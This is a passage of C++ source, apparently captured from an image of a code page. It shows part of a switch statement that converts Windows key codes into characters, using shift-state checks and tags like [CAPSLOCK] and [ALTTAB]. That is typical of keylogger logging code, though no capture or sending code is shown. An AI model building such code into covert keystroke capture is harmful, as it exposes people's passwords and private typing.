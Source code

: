 ```cpp
	case 222:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "\"");
		else
			print("%s", "'");
		break;
	case 220:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "|");
		else
			print("%s", "\\");
		break;
	case 219:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "{");
		else
			print("%s", "[");
		break;
	case 221:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "}");
		else
			print("%s", "]");
		break;
	case 186:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", ":");
		else
			print("%s", ";");
		break;
	case 191:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "?");
		else
			print("%s", "/");
		break;
	case 190:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", ">");
		else
			print("%s", ".");
		break;
	case 187:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "+");
		else
			print("%s", "=");
		break;
	case 189:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "_");
		else
			print("%s", "-");
		break;
	case VK_CAPITAL:
		print("%s", "[CAPSLOCK]");
		break;
	case VK_TAB:
		print("%s", "[TAB]");
		if (GetAsyncKeyState(VK_RMENU))
			print("%s", "[ALTTAB]");
		break;
	case VK_LSHIFT:
```